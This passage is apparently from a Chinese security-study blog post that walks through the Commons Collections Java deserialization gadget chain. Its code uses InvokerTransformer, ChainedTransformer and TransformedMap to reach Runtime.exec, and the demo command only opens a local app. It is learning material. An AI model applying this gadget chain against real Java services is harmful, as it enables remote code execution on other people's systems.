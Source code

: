 成功弹出

![image-20250217214119103](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217214119142.png)

Runtime是一个不可反序列化的类，但是Runtime.class可以，因为class类可发序列化

![image-20250217221429789](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217221429835.png)

这里我们可以直接使用InvokerTransformer来反射调用Runtime，成功弹出app

```java
Method getRuntime =(Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
Runtime currentRuntime = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}).transform(getRuntime);
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open /Applications/NeteaseMusic.app"}).transform(currentRuntime);
```

![image-20250217221609057](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217221609129.png)

然后我们来看chainedTransformer类，它的transform方法传入的参数是一个数组时，会调用每一个参数的transform方法，前一个参数调用tranform的返回值会作为下一个参数调用transform的参数

![image-20250217203624746](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217203624785.png)

可以使用chainedTransformer将上面三部分InvokerTransformer来反射调用Runtime包裹起来，再调用transform

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
        new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open /Applications/NeteaseMusic.app"})
});
chainedTransformer.transform(Runtime.class);
```

![37B0628D-DADF-418E-BD3B-2587B0D95BF7](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217222007063.png)

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open /Applications/NeteaseMusic.app"})
        });
//        chainedTransformer.transform(Runtime.class);
        HashMap Map = new HashMap();
        Map<Object,Object> transformedMap = TransformedMap.decorate(Map,null,chainedTransformer);
        Map.put("aaa","bbb");
        for (Map.Entry entry:transformedMap.entrySet())
        {
            entry.setValue(Runtime.class);
        }
```
